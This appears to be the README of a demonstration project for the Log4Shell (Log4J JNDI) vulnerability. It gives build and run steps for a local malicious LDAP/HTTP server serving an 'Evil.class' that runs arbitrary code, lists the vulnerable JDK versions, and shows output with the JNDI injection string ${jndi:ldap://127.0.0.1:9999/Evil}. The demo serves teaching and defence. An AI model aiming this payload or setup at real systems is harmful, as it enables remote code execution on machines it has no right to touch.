 ## Log4Shell Goof

The purpose of this project is to demonstrate the Log4Shell exploit with Log4J versions older than `2.15.0`.

**NOTE**: Multiple additional vulnerabilities have been disclosed with log4j. Make sure you're using the latest `2.17.x` version.

This repo is based on the excellent proof-of-concept published by [BrianV](https://github.com/bmvermeer/log4jexploit/).
The PoC is a great starting point. This project expands on it by fleshing it out into a fully standalone demo.

For more information about the exploit and the mechanics of how it works, 
[here is a good blog post](https://snyk.io/blog/log4j-rce-log4shell-vulnerability-cve-2021-4428/).

### Requirements

You'll need one of the following Java SDKs:
  * 11.0.1 or earlier
  * 8u191 or earlier
  * 7u201 or earlier
  * 6u211 or earlier

Java SDKs newer than those versions don't have the same vulnerability.

### Building the PoC

In the root folder, run:

```
mvn clean install
```

**NOTE:** This project includes the Maven wrapper, so you don't need to have previously installed Maven.

### Running the PoC

This repo has two modules: server and client.

The server module runs a lean LDAP & HTTP server.

The LDAP server listens on port `9999` by default and will return an `LDAPResult` that includes a URL reference to a
Java class that will be deserialized and executed.

The HTTP server listens on port `8000` and responds to any request with a byte array that is the `Evil.class`.

`Evil` implements `ObjectFactory` which the JNDI mechanism hooks into to execute its `getObjectInstance` method. While
the method simply returns `null`, it uses `Runtime` to execute arbitrary code on the host machine. In this case, it
writes to a file called: `/tmp/pwned` to prove that it _could_ execute basically anything available on the machine.

This PoC should run as-is on Linux or Mac.

Open a terminal window and run the following:

```
cd log4shell-server
mvn exec:java
```

You should see output that looks like the following:

```
[INFO] --- exec-maven-plugin:3.0.0:java (default-cli) @ log4shell-server ---
LDAP server listening on 0.0.0.0:9999
HTTP server listening on 0.0.0.0:8000
```

In another terminal window, run the following:

```
cd log4shell-client
JAVA_HOME=/Library/Java/JavaVirtualMachines/jdk1.8.0_111.jdk/Contents/Home \
mvn exec:java
```

**NOTE:** Referencing `JAVA_HOME` is important as the exploit only fully works with older JDK versions.
For example, you can download JDK 8u111 
[here](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html). If you download
and install the version for Mac, the above command will work for you.

You should see output that looks like the following:

```
[INFO] --- exec-maven-plugin:3.0.0:java (default-cli) @ log4shell-client ---
---------- JVM Props -------------
java.vm.version=25.111-b14
java.vm.vendor=Oracle Corporation
java.vm.name=Java HotSpot(TM) 64-Bit Server VM
java.vm.specification.name=Java Virtual Machine Specification
java.vm.specification.vendor=Oracle Corporation
java.vm.specification.version=1.8
java.vm.info=mixed mode
---------------------------------
20:27:49.676 [Main.main()] ERROR Main - test
/tmp/pwned DOES NOT EXIST
20:27:49.679 [Main.main()] ERROR Main - Output:${jndi:ldap://127.0.0.1:9999/Evil}
/tmp/pwned EXISTS - yah been pwned!
```

**NOTE**: The client app will tell you if it was successful. It does some checks, including looking for the 
`/tmp/pwned` file before and after the attack. You MUST delete the `/tmp/pwned` file between runs in order for the
client app to work properly. The file not being there and then being present after the attack is how it knows it's
been successful.

Alterei aqui
